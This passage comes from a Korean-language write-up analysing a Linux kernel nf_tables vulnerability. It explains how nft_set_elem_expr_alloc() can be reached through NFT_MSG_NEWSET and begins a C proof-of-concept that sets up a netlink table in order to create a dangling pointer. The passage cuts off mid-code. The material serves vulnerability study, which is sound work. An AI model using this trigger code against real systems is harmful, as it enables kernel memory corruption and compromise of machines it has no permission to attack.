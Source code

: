set에 expression 이 등록되면 `nft_set_elem_expr_alloc()` 함수를 호출하는 것을 알 수 있다!

따라서 우리는 `NFT_MSG_NEWSET` 명령어를 `netlink`에 보냄으로써 취약점을 유발하는 함수를 트리거 할 수 있다. 

+ 의문이 드는 점은 `NFT_MSG_NEWSETELEM` 명령어를 통해서도 `nft_set_elem_expr_alloc()` 함수를 트리거 할 수 있는데, 왜 이 벡터는 설명하지 않았는지가 궁금하다. 한번 문의해 볼 수 있으면 좋겠다. 

## **trigger**

그럼 직접 해당 취약점을 트리거 해보자.

먼저 `set` 하나를 할당 한 뒤, `lookup expresssion`을 새로운 `set`에 할당하고, 먼저 생성했던 `set`에 바인딩을 해주게 된다면 dangling pointer 를 생성할 수 있다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <linux/netfilter.h>
#include <linux/netfilter/nf_tables.h>
#include <libnftnl/table.h>
#include <libnftnl/chain.h>
#include <libnftnl/rule.h>
#include <libnftnl/expr.h>
#include <libnftnl/set.h>
#include <libmnl/libmnl.h>
//#include <arpa/inet.h>

int main() {
    struct mnl_socket *nl;
    struct nftnl_table *table;
    struct nftnl_set *set1;
    struct nftnl_set *set2;
    struct nftnl_expr *expr;
    struct nlmsghdr *nlh;
    char buf[MNL_SOCKET_BUFFER_SIZE];

    uint32_t seq = time(NULL);
    uint32_t family = NFPROTO_IPV4;
    uint16_t dport = htons(80);

    nl = mnl_socket_open(NETLINK_NETFILTER);
    if (nl == NULL) {
        perror("mnl_socket_open");
        exit(EXIT_FAILURE);
    }

    if(mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0) {
        perror("mnl_socket_bind");
        mnl_socket_close(nl);
        exit(EXIT_FAILURE);
    }
    
    table = nftnl_table_alloc();
    nftnl_table_set_str(table, NFTNL_TABLE_NAME, "poctable");
    nftnl_table_set_u32(table, NFTNL_TABLE_FLAGS, 0);

    nlh = nftnl_table_nlmsg_build_hdr(buf, NFT_MSG_NEWTABLE, family, 
                                     NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK, seq);
    nftnl_table_nlmsg_build_payload(nlh, table);
    nftnl_table_free(table);

    if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
        mnl_socket_close(nl);
```